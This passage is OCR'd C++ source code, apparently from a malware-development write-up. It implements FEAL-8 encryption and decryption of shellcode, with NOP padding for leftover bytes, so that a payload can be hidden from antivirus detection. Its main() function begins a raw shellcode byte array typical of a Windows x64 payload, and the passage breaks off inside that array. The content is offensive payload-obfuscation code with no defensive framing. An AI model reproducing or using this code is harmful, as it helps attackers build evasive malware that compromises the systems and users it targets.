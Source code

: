 ```cpp
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
```